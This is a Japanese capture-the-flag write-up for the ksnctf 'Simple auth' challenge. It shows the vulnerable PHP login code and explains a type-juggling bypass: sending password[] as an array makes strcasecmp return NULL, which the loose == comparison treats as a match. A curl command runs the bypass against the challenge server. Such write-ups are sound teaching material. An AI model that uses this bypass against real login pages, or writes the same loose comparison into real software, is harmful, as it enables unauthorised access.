 # Ksnctf 32 Simple auth

<https://ksnctf.sweetduet.info/problem/32>

<http://ctfq.sweetduet.info:10080/~q32/auth.php>

```php
<?php
$password = 'FLAG_????????????????';
if (isset($_POST['password']))
    if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
?>
```

## 問題

<https://secure.php.net/manual/ja/function.isset.php>

<https://secure.php.net/manual/ja/function.strcasecmp.php>

isset で password 変数が値を持つかチェックし，strcasecmp で文字列比較

== となっているので strcasecmp に配列変数を渡すと，NULL が返り値となり、true つまり 0 を返す

## 解法

chrome で

```html
<input type="password" name="password[]" />
```

に書き換えて適当な文字を post すると

```
Congratulations! The flag is FLAG_XXXXXXXXXXXXXXXX
```

curl で post する方法もある

```bash
curl -X POST -F ' password[]="" ' http://ctfq.sweetduet.info:10080/~q32/auth.php
```

flag get

